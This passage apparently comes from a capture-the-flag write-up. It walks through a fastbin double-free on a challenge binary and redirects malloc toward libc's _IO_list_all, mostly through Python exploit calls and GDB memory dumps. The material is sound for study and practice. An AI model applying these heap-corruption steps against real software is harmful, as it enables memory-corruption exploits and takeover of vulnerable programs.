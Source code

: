 ## Corrupt FD pointer
First, we setup our fastbin for size `0x70` indexes like so.
{%highlight python %}
addFlower(0x68,"A"*23,"B"*28) # A, B
addFlower(0x68,"C"*23,"D"*28) # C, D
addFlower(0x68,"E"*23,"F"*28) # E, F

delFlower(8)
delFlower(7)
delFlower(6)
delFlower(7)
delFlower(8)
{%endhighlight %}

Now our fastbin for size `0x70` fastchunks should look like this:

```bash
[HEAD]->F->D->B->D->F->NULL
```

We can confirm this in GDB.
{% highlight bash %}
gdb-peda$ p main_arena.fastbinsY
$8 = {0x0, 0x0, 0x0, 0x0, 0x0, 0x5643a4b7c480, 0x0, 0x0, 0x0, 0x0}
gdb-peda$ x/8xg 0x5643a4b7c480     <---F
0x5643a4b7c480: 0x0045454545454545      0x0000000000000071
0x5643a4b7c490: 0x00005643a4b7c3e0      0x4646464646464646
0x5643a4b7c4a0: 0x4646464646464646      0x0000000046464646
0x5643a4b7c4b0: 0x0000000000000000      0x0000000000000000
gdb-peda$ x/8xg 0x00005643a4b7c3e0 <---D
0x5643a4b7c3e0: 0x0043434343434343      0x0000000000000071
0x5643a4b7c3f0: 0x00005643a4b7c340      0x4444444444444444
0x5643a4b7c400: 0x4444444444444444      0x0000000044444444
0x5643a4b7c410: 0x0000000000000000      0x0000000000000000
gdb-peda$ x/8xg 0x00005643a4b7c340 <---B
0x5643a4b7c340: 0x0041414141414141      0x0000000000000071
0x5643a4b7c350: 0x00005643a4b7c3e0      0x4242424242424242
0x5643a4b7c360: 0x4242424242424242      0x0000000042424242
0x5643a4b7c370: 0x0000000000000000      0x0000000000000000
{% endhighlight %}

Notice that `D->FD` points to `B` now instead of `F`, because we've free'd it twice.

Next we do the following:
{% highlight python %}
target = libc_base+0x3c44fd         #_IO_list_all 00000000003c4520
addFlower(0x68,"G"*23,"H"*0x10)     # G, H
addFlower(0x68,"I"*23, p64(target)) # I, J: D->FD = _IO_list_all-0x30+0xd
{% endhighlight %}

Doing this pops `F` off the freelist and overwrites `D->FD` with our target chunk we would like `malloc()` to return.

Since we want to overwrite the `_IO_list_all` pointer, we can find our target using GDB.
{% highlight bash %}
gdb-peda$ p &_IO_list_all
$7 = (struct _IO_FILE_plus **) 0x7fd76f205520 <_IO_list_all>
gdb-peda$ x/2xg &_IO_list_all
0x7fd76f205520 <_IO_list_all>:  0x00007fd76f205540      0x0000000000000000
{% endhighlight %}
